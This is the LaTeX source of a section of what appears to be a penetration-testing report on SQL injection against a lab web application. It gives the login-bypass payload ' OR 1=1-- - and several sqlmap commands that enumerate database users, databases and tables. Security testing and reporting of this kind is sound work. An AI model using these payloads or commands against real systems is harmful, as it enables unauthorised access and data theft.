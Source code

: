 \documentclass{report}
\begin{document}
\subsubsection{Steps to Replicate}
\begin{itemize}
	\item For initial testing of SQL injection, a basic authentication bypass was used. The payload ' OR 1=1-- - was entered in to the username field (Fig. 3.4), which subsequently allowed access to the 'David' account, giving use of the admin panel as well (Fig. 3.5).
	\item For further testing, the tool SQLmap was used. This is a tool that automatically iterates through potential SQLi payloads, providing information such as DB names, table names, table data, SQL user names, and SQL version.
	\item The first test done with SQLmap was checking if it detected SQL injection. The command used for this was \begin{verbatim}sqlmap -u "http://172.16.2.133/login.php?username=qwe&
	password=qwe&Search=" --batch\end{verbatim}The results provided some information on the DB system and potential attacks it was vulnerable to (Fig. 3.6).
	\item After this, the --passwords flag was used to test for DB users and retrieve any passwords if possible. SQLmap found a DB user named "auctuser", but had no access to the users table so could not retrieve a password (Fig. 3.7).
	\item With no password found, the next step was to search for databases. The command used to do this was
\begin{verbatim}
sqlmap -u "http://172.16.2.133/login.php?username=qwe&
password=qwe&Search=" --batch --databases
\end{verbatim}
	This successfully found the databases, returning three in total (Fig. 3.8). The first was the information\_schema DB, default in all installations of MySQL. The second was the auctionsrus DB, the one likely holding all info. The last was a test DB which also comes default with MySQL.
	\item With the new information of the auctionsrs db, the --tables flag could be used to dump the table names for said DB. The command used for this was:
\begin{verbatim}
sqlmap -u "http://172.16.2.133/login.php?username=qwe&
password=qwe&Search=" --batch -D auctionsrus --tables
\end{verbatim}

\end{itemize}
\end{document}
